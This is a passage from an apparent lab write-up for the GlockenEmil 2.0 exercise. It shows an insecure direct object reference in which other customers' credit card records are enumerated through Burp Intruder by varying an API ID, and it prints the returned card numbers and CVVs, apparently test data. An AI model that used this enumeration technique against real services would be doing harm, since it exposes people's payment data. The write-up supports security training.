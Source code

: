 # GlockenEmil 2.0 – DOR Direct Object Reference

- watched Request and Response of the credit card info page via Burp Proxy
- noticed that credit card infos are requested via an API and we assume the random number is the credit card identifier

```api
GET /api/creditcard/account/5aa0481e876d9d39d4397859

https://0edbe9c2-a3fd-4437-85d2-7ab49dca6ec1.idocker.vuln.land/api/creditcard/account/5aa0481e876d9d39d4397859
```

- based on that we tried to use the Intruder of Burp to iterate through possible identifiers. We used the `Snipe` attack type. We only tried to iterate through the last character from `0-f`

```api
GET /api/creditcard/account/5aa0481e876d9d39d439785§9§
```

- based on the status code `200` of the attacks we knew that `c` and `f` were other credit cards from other customers

```url
https://0edbe9c2-a3fd-4437-85d2-7ab49dca6ec1.idocker.vuln.land/api/creditcard/account/5aa0481e876d9d39d439785c

https://0edbe9c2-a3fd-4437-85d2-7ab49dca6ec1.idocker.vuln.land/api/creditcard/account/5aa0481e876d9d39d439785f
```

```json
{
  "statusCode": 200,
  "data": {
    "creditCards": [
      {
        "_id": "5aa0481e876d9d39d439785d",
        "number": "4900000000000086",
        "type": "Visa",
        "cvv": "117",
        "month": 4,
        "_account": "5aa0481e876d9d39d439785c",
        "createdAt": "2018-03-07T20:14:22.546Z",
        "updatedAt": "2023-10-15T07:54:47.467Z",
        "__v": 0,
        "year": 2023
      }
    ]
  },
  "message": null
}
```

```json
{
  "statusCode": 200,
  "data": {
    "creditCards": [
      {
        "_id": "5aa0481e876d9d39d4397860",
        "number": "5404000000000002",
        "type": "Mastercard",
        "cvv": "570",
        "month": 5,
        "_account": "5aa0481e876d9d39d439785f",
        "createdAt": "2018-03-07T20:14:22.552Z",
```